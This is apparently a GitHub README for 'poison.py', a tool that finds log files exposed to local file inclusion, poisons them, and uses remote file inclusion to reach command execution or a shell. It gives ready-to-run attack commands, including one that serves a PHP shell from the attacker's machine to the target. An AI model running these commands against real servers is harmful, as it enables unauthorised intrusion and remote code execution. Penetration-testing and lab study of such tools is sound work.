 # poison.py
Fast tool to search log's for LFI/RFI vulnerabilities, and automatic escalation to shell

## Exploitation:
![Preview](https://github.com/user-attachments/assets/8d658876-79d6-41f1-9456-91681be9782e)



## Example usage (LFI):
```
./poison.py -u 'http://127.0.0.1/file.php?file=' -e 'id' -p src/payloads.txt -w src/small.txt
```
_____________________________________________________________________________________________
```
-u 'http://127.0.0.1/file.php?file=' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

```
-w src/small.txt # wordlist using the search for available log's file
```
## Example usage (RFI):
```
/poison.py -u 'http://127.0.0.1/index.php?page=' --rfi --lhost 10.10.10.10 --rhost 127.0.0.1 --rport 14852 --lfile 'src/shell.php' -e 'id' --cookie 'PHPSESSID=1234567890'
```
![screenshot](https://github.com/user-attachments/assets/061fdbe8-5b76-43d8-816f-068abf521744)
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 10.10.10.10 # which network interface to bind the local HTTP server to (necesssary only on remote explotiation)
```

```
-rhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--rport 14852 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/shell.php' # payload which include in the request during the RFI
```

```
-e 'id' # command for src/shell.php 
```

```
--cookie 'PHPSESSID=1234567890' # cookie for authorized requests
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program
